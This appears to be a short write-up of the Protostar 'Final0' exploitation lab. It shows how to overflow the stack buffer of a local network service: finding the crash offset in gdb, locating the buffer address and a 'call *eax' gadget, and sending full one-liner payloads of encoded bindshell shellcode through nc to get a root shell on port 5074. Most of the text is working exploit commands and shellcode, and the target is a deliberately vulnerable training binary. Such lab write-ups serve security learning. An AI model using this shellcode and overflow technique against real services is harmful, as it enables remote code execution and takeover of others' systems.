 ## Final0
* `python -c "print('A' * 512 + 'ABCDEFGHIJKLMNOPQRSTUVWXYZ')" | nc localhost 2995 `
* `gdb -q -c /tmp/core.11.final0.1894`
* `#0  0x58575655 in ?? ()`
* so buffer overflow works and `length = 532`
* shellcode https://www.exploit-db.com/exploits/13427/
* Two ways to execute the buffer
  1. `x/10x $esp-536` so we know the buffer address is `0xbffffa48`
  2. from `return strdup(buffer)` we can find the address of `call.*eax` by `objdump -d /opt/protostar/bin/final0 | grep "call.*eax"`
  ```
   8048d5f: ff d0                   call   *%eax
   804992b:   ff d0                   call   *%eax
  ```
  through `x/i 0x8048d5f` and `x/i 0x804992b` we can sure that `0x8048d5f` is what we want
* `python -c 'print("\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA" + "A"*306 + "\x48\xfa\xff\xbf" + "\n")' | nc localhost 2995`
* `python -c 'print("\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA" + "A"*306 + "\x5f\x8d\x04\x08" + "\n")' | nc localhost 2995`
* this is a "Bindshell puerto 5074", so open another shell and run `nc localhost 5074` we get the root shell